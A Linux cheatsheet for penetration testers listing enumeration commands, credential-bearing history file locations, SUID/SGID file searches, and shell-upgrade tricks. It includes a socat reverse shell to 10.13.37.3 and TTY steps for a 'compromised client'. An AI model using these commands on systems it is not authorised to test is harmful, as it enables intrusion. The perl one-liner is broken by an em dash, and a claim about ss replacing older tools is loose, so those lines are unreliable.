 Linux Cheatsheet for Pentesters
===============================
Key:
- `*` - Indicates non-portable/non-POSIX/shell built-in
- `#` - Indicates root priveleges are normally needed
 
Linux does not have a standarized userspace, this means that commands on different distributions of Linux do not have the same tools. For example, RHEL based distros are replacing `ifconfig`, `arp`, `netstat`, `route`, and more with a single command `ss` and you may not find these tools on the latest versions of some distros. Some tools you might expect in Ubuntu may not exist on Gentoo. An overview table of some distros configuration can be seen in the "Distribution Cheatsheet" section.

Information Gathering
---------------------
- `uname -a` - prints the OS information: `Linux rapid7 4.14.0-kali3-amd64 #1 SMP Debian 4.14.17-1kali1 (2018-02-16) x86_64 GNU/Linux`
- `id` - user and group IDs and the corresponding user and group: `uid=1000(cale) gid=1000(cale) groups=1000(cale),27(sudo)`
- `df` - List filesystem mount points. 
- `mount`\* - list mounted filesystem, check for world writable or writable by user (VMWare for instance mounts with vulnerable permissions)
- `last`\* - print the last logged in users and the time they logged in.
- `env` - print environment variables.
- `history`\* - print shell history.
- `lsof`\* - list open files

Sensitive Locations
-------------------
- `/etc/` - common configurations 
- `/var/log/` - system logs
- `$HOME/.bash_history` - bash history
- `$HOME/.sh_history` - sh history
- `$HOME/.zsh_history` - zsh history
- `$HOME/.bashrc` - bash rc init file
- `$HOME/.profile` - shell profile

Permissions
-----------
- `find / -type f -perm -o+w` - find world writable files, use `-type d` and use `2>/dev/null` to remove permission denied errors
- `find / -nouser -nogroup` - find files without owner or group
- `find / -perm /4000 ` - find SUID files
- `find / -perm /2000` - find SGID executables/folders
- `find / -type f -perm /0100` - find executable all binaries

Non-interactive Shell Tricks
----------------------------
- `2>&1` - get STDERR output (ie for --help output)
- `python -c 'import pty; pty.spawn("/bin/sh")'` - full TTY spaws for job control and more normal shell features
- `perl —e 'exec "/bin/sh";'` - full TTY via perl
- `/bin/sh -i` - full interactive TTY
- `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.13.37.3:7776` - socat full TTY, connecting to server running: `socat file:\`tty\`,raw,echo=0 tcp-listen:7776`
- Create matching TTY sessions between current terminal and remote terminal. On compromised client run `export TERM=xterm-256color`, background shell `CTRL-Z`, set local shell `stty raw -echo`, foreground shell `fg`, and reset the TTY columns/rows `reset`
